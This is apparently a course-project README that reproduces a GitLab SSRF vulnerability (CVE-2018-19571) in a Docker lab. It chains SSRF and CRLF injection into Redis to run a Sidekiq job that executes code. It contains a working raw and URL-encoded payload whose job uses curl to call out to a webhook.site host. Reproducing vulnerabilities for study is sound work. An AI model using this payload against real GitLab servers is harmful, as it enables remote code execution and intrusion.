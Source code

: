 # GitLab SSRF

This repository is a reproduction of [CVE-2018-19571](https://nvd.nist.gov/vuln/detail/CVE-2018-19571), and how when combined with a CRLF injection exploit, can lead to remote code execution (RCE).

## CVE Details

### CVE-2018-19571

GitLab CE/EE, versions 8.18 up to 11.x before 11.3.11, 11.4 before 11.4.8, and 11.5 before 11.5.1, are vulnerable to an SSRF vulnerability in webhooks.

## Setting Up

For this reproduction, we will be using a vulnerable GitLab image, and running it using Docker Compose.

```sh
git clone https://github.com/CS4239-U6/gitlab-ssrf.git
cd gitlab-ssrf
docker-compose up
```

The goal is to provide a webhook URL that, when processed, would result in a payload being sent to Redis.

This payload, that will be enqueued, will contain a Sidekiq Job, which upon execution will run arbitrary shell code. In our case, it will copy over the flag value to us.

## Steps

We will first run through the steps, before explaining what each of these steps do.

1. Create an account, or login using the root account.

   The root password should be `password`, as specified in the file `initial_root_password`, but sometimes this doesn't end up loading properly.

   In such cases, you will need to modify the root account password directly.

   ```sh
   docker exec -it gitlab-ssrf_web_1 /bin/bash
   # Inside the shell
   gitlab-rails console
   # Inside the console
   user = User.find_by_username 'root'
   user.password = 'password'
   user.password_confirmation = 'password'
   user.save!
   ```

   Then, head over to `http://localhost:5080` and login.

   ![Login Page](docs/login.png)

2. Navigate to the create project page.

   Next, head over to `http://localhost:5080/projects/new` and click the tab `Import project`. You should see that there is an option: `Repo by URL`. We are going to use that to perform our SSRF attack.

   ![Project Page](docs/project.png)

3. Create a webhook to receive the flag.

   Create a webhook URL at `https://webhook.site/`.

   Paste the URL into the following code at `<URL HERE>`:

   ```text
   git://[0:0:0:0:0:ffff:127.0.0.1]:6379/
    multi
    sadd resque:gitlab:queues system_hook_push
    lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'| curl https://webhook.site/807b6a27-314e-4947-b5f1-c384d8dc574f -k\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
    exec
    exec
   /ssrf.git
   ```

   Then finally, we encode the above using a [URL Encoder](https://www.urlencoder.org/). Note that we will only be encoding the payload (which includes the blanks at the beginning and the linebreaks), and not the first and last line. You will also need to use CRLF. Lastly, do replace the following characters, if any, with their respective encoding:

   - `_`: `%5F`
   - `.`: `%2E`
   - `-`: `%2D`

   ```text
   git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7C%20curl%20https%3A%2F%2Fwebhook%2Esite%2F807b6a27%2D314e%2D4947%2Db5f1%2Dc384d8dc574f%20%2Dk%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf.git
   ```

   (Or you can just use this payload above, and check out <https://webhook.site/#!/807b6a27-314e-4947-b5f1-c384d8dc574f/> to see the output).

   ![Loading](docs/loading.png)

   You should see that a GET request was made to the webhook (and it will repeat as GitLab repeatedly tries to fetch the repository).

   ![Webhook](docs/webhook.png)

### Debugging

If the above is failing for you, you might need to enable Outbound Requests to internal services.

![Requests](docs/request.png)

You can do so at `http://localhost:5080/admin/application_settings/network` after logging in as root.

## How does this work?

We're exploiting two vulnerabilities for this attack. The first vulnerability is SSRF, where internal services can be reached via IPv6. You can see more information at the GitLab issue here: <https://gitlab.com/gitlab-org/gitlab-foss/-/issues/53242>.

The second vulnerability is how line breaks were allowed in the URL for the webhooks.

These two combined allow us to actually pass a payload to the internal service. In this case, we're targeting the local Redis service.

The payload we pass in enqueues a new job in the Redis queue, and this job is actually processed by Sidekiq, a async job runner that works with Ruby on Rails. We're specifically targeting the `GitlabShellWorker` job class, which allows us to execute arbitrary code.

```ruby
class GitlabShellWorker
  include ApplicationWorker
  include Gitlab::ShellAdapter

  def perform(action, *arg)
    gitlab_shell.__send__(action, *arg) # rubocop:disable GitlabSecurity/PublicSend
  end
end
```

Thus, by passing in `open('| curl <URL HERE>').read` and running it with `class_eval`, we can trigger the remote code execution.
